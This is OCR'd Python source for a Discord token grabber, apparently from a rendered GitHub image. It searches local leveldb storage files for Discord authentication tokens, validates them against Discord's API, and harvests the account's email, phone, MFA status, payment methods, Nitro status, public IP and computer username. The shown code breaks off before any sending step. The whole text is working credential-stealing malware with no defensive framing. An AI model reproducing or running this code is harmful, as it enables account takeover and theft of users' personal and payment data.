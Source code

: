         def search(path: str) -> list:
            path += "\\Local Storage\\leveldb"
            found_tokens = []
            if isdir(path):
                for file_name in listdir(path):
                    if not file_name.endswith(".log") and not file_name.endswith(".ldb"):
                        continue
                    for line in [x.strip() for x in open(f"{path}\\{file_name}", errors="ignore").readlines() if x.strip()]:
                        for regex in (r"[\w-]{24}\.[\w-]{6}\.[\w-]{27}", r"mfa\.[\w-]{84}"):
                            for token in findall(regex, line):
                                try: 
                                    urlopen(Request(
                                        "https://discord.com/api/v9/users/@me",
                                        headers=Discord.setheaders(token)))
                                except HTTPError:
                                    continue
                                if token not in found_tokens and token not in tokens:
                                    found_tokens.append(token)

            return found_tokens

        for path in PATHS:
            for token in search(PATHS[path]):
                tokens.append(token)
        return tokens

class Grab:

    def token_grab(token: str):
        def getavatar(uid, aid) -> str:
            url = f"https://cdn.discordapp.com/avatars/{uid}/{aid}"
            try:
                urlopen(Request(url, headers=Discord.setheaders()))
            except HTTPError:
                url += ".gif"
            return url

        def has_payment_methods(token) -> bool:
            has = False
            try:
                has = bool(loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/billing/payment-sources",
                           headers=Discord.setheaders(token))).read()))
            except:
                pass
            return has

        valid, invalid = "<:valide:858700826499219466>", "<:invalide:858700726905733120>"

        def verify(var):
            return valid if var else invalid

        user_data = loads(urlopen(Request("https://discordapp.com/api/v6/users/@me",
                        headers=Discord.setheaders(token))).read())
        ip = loads(urlopen(Request('http://ipinfo.io/json')).read())['ip']
        computer_username = getenv("username")
        username = user_data["username"] + \
            "#" + str(user_data["discriminator"])
        user_id = user_data["id"]
        avatar_id = user_data["avatar"]
        avatar_url = f"https://cdn.discordapp.com/avatars/{user_id}/{avatar_id}"
        email = user_data.get("email")
        phone = user_data.get("phone")
        mfa_enabled = bool(user_data['mfa_enabled'])
        email_verified = bool(user_data['verified'])
        billing = bool(has_payment_methods(token))
        nitro = bool(user_data.get("premium_type"))
